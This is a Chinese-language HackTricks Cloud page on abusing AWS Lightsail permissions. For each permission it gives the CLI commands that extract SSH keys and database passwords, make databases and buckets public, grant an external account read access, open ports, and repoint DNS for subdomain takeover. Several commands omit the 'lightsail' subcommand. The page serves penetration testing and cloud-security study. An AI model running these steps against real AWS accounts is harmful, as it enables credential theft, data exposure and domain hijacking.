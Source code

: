 # AWS - Lightsail Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lightsail

有关 Lightsail 的更多信息，请查看：

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
重要的是要注意，Lightsail **不使用属于用户的 IAM 角色**，而是使用 AWS 管理的账户，因此您无法利用此服务进行权限提升。然而，**敏感数据**如代码、API 密钥和数据库信息可能会在此服务中找到。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

此权限将允许您获取访问实例的 SSH 密钥：
```
aws lightsail download-default-key-pair
```
**潜在影响：** 在实例中查找敏感信息。

### `lightsail:GetInstanceAccessDetails`

此权限将允许您生成 SSH 密钥以访问实例：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在影响：** 在实例中查找敏感信息。

### `lightsail:CreateBucketAccessKey`

此权限将允许您获取访问存储桶的密钥：
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在影响：** 在存储桶中找到敏感信息。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

此权限将允许您获取访问数据库的凭据：
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在影响：** 在数据库中找到敏感信息。

### `lightsail:UpdateRelationalDatabase`

此权限将允许您更改访问数据库的密码：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

如果数据库不是公开的，您也可以通过以下权限将其设为公开

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在影响：** 在数据库中找到敏感信息。

### `lightsail:OpenInstancePublicPorts`

此权限允许将端口开放到互联网。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在影响：** 访问敏感端口。

### `lightsail:PutInstancePublicPorts`

此权限允许将端口开放到互联网。请注意，该调用将关闭未在其上指定的任何已打开端口。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在影响：** 访问敏感端口。

### `lightsail:SetResourceAccessForBucket`

此权限允许为实例提供对存储桶的访问，而无需任何额外凭据。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在影响：** 可能会新获得对包含敏感信息的存储桶的访问权限。

### `lightsail:UpdateBucket`

拥有此权限的攻击者可以授予自己的 AWS 账户对存储桶的读取访问权限，甚至可以将存储桶公开给所有人：
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在影响：** 可能新获得对包含敏感信息的存储桶的访问。

### `lightsail:UpdateContainerService`

通过此权限，攻击者可以授予对容器服务的私有 ECR 的访问权限。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在影响：** 从私有 ECR 获取敏感信息

### `lightsail:CreateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的 IP 地址（子域接管），或制作一个 SPF 记录，使其能够伪造来自该域的电子邮件，甚至将主域设置为自己的 IP 地址。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响：** 接管一个域名

### `lightsail:UpdateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的IP地址（子域接管），或制作一个SPF记录，使其能够伪造来自该域的电子邮件，甚至将主域设置为自己的IP地址。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响：** 接管一个域名

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
